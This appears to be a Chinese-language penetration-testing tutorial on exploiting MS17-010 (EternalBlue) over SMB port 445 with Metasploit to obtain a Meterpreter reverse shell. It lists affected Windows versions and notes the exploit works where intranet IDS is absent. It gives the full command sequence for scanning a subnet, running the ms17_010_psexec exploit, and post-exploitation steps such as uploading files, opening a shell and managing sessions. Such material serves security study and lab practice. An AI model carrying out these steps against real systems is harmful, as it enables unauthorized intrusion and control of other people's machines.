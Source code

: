 ## **meterpreter**
meterpreter就是获取主机getshell，上线后的会话。

模拟使用ms17_010永恒之蓝拿下meterpreter的shell。
>ms17_010： 微软安全公告2017年第10个，永恒之蓝EternalBlue，利用windows的SMB服务协议445端口，实现执行代码反弹shell。
>SMB：是一种默认开启并开放445端口用于在局域网中共享文件、打印机和其他资源的网络协议。Windows系统使用SMB来实现文件和打印机共享，以便用户可以轻松地在网络上访问和共享文件。
>影响的系统版本：
Windows Vista
Windows Server 2008
Windows 7 (主要)
Windows Server 2008 R2 （主要）
Windows 8.1
Windows Server 2012
Windows 10
Windows Server 2016
内网IDS不做防护，还可以利用这个漏洞。
^
## **445打永恒之蓝**
```
msfconsole  //启动msf

search ms17_010   //可以看到两个辅助检测模块auxiliary，两个利用模块exploit。

use   auxiliary/scanner/smb/smb_ms17_010   //先检测有没有。

show options
set rhosts 192.168.16.173     //设置目标等参数
set rhosts 192.168.16.0/24   //设置为扫网段探测
set thread 10

run   //检测目标445端口，返回结果存在漏洞

use exploit/windows/smb/ms17_010_psexec  //使用利用模块

run  //创建反弹shell，进入meterpreter


meterpreter>对目标机操作，提权等。
```
meterpreter常用命令操作：
<https://www.cnblogs.com/crabin/p/17486024.html>
```
上传文件
upload   /root/les.sh   /tmp/les.sh

查看身份
getuid

shell交互窗口
shell


后台运行会话
meterpreter>background

查看有哪些会话
msf>sessions

进入会话
msf>sessions 1
```